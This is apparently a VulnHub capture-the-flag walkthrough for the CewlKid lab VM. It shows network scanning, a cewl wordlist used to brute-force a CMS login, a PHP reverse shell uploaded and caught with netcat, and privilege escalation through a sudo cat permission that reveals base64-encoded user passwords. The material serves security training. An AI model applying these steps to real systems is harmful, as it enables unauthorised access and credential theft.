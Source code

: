# CewlKid: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:ac:dd:85       PCS Systemtechnik GmbH
192.168.56.121  08:00:27:d7:32:a1       PCS Systemtechnik GmbH
```

The ip address is `192.168.56.121`, let's scan it.


## 2.Enumeration

```bash
root@kali: nmap -p80,22,8080 -v -sC -sV -oN nmap.out 192.168.56.121

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:87:08:d7:ed:3a:9d:f6:be:91:7e:01:24:c8:74:c0 (RSA)
|   256 d6:22:68:01:2c:e2:c5:72:8e:1b:23:68:77:3e:10:7d (ECDSA)
|_  256 bb:91:85:49:86:fd:af:66:42:a3:f4:12:90:a3:31:6a (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Sitemagic CMS
|_http-title: Welcome - about us
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: E6E1C631192DE24218AC9348293A46CB
```

I begin with port 80 and there is just a simple apache web page, next we go for port `8080` and there is a CMS here

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c8c8f1a4-6e71-4d9d-917d-1f3fd88b54c0)


we immediately see the login page for the CMS and now we need credentials, as the name of the CTF suggests that it is a hint

i can see that `cewl` is the name of wordlist generator base on the site content, lets create a wordlist :

```bash
root@kali: cewl -w wordlist.txt -d 5 -m 4 http://192.168.56.121:8080
```

now we can check for admin login, just catch the request in burp and send it to intruder and wait for a different response length :


yes. we found the password for login.


## 3.Gaining Shell

Inside the panel we see and admin menu which we can upload file in it, just upload a php reverse shell and the load it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e44ab129-72b0-43c1-84be-6513db3b7ad3)


start a listener and navigate to `http://192.168.56.121/files/image/rev.php` to get the shell :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.56.102] from (UNKNOWN) [192.168.56.121] 46618
Linux cewlkid 5.4.0-47-generic #51-Ubuntu SMP Fri Sep 4 19:50:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:45:39 up  1:55,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation (ipsum)

Using `sudo -l` we find our sudo permissions and this is where we see that we can run `/usr/bin/cat` as user ipsum :

```bash
$ sudo -l
Matching Defaults entries for www-data on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on cewlkid:
    (ipsum : ipsum) NOPASSWD: /usr/bin/cat
```

let's check which files use ipsum has access to :

```bash
$ find / -user ipsum -type f 2>/dev/null
/var/www/example.com/html/.../nothing_to_see_here
```

let's see the content of it :

```bash
$ sudo -u ipsum /usr/bin/cat /var/www/example.com/html/.../nothing_to_see_here
aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=
bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=
```

decode the strings :

```text
ipsum : SpeakPeople22!

lorem : PeopleSpeak44!
```




